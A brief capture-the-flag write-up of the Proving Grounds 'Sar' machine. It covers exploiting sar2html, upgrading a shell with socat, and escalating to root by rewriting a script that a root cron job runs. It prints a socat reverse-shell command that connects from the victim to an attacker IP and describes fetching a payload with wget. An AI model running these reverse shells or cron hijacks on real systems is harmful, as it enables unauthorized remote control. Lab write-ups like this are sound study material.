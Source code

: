 # PG Play - Sar
##Author: Love Sharma
##Released on:Jul 20, 2020


This is not a conventional foothold-privesc type of machine. Only proof.txt is a valid flag.


Target: 192.168.246.35


Nmap found port 80 opened then found this sar2html in robots.txt



Found exploit for sar2html



echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin


/usr/sbin

Didn't have a tty shell so found a 
Tested a few different types, php, python, nc (no -e because of version issue but the nc tty without a -e didn't work either) the one that worked was a socat used below commands


On Kali (listen):

1
socat file:`tty`,raw,echo=0 tcp-listen:4444
On Victim (launch):

1
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.45.175:4444

socat once I used the sarhtml exploit to get a dumb shell to convert to a tty



Found with linpeas that I was able to view the crontabs file (/var/spool/cron/crontabs) could have found it with a command after picture though also quicker


cat /etc/cron* /etc/at* /etc/anacrontab /var/spool/cron/crontabs/root 2>/dev/null | grep -v "^#"


Found that the finally script ran as root from the cron job and all it did was execute the write.sh which I was able to modify, found it horrendous trying to modify in the slow tty shell so I created a new one and tested all the same reverse shells like a dummy that didn't work earlier and realised socat should work since it worked earlier and moved it over with a http server and wget in between the cron jobs and listened on the port 1337 with the same socat listener command used earlier to get a tty shell









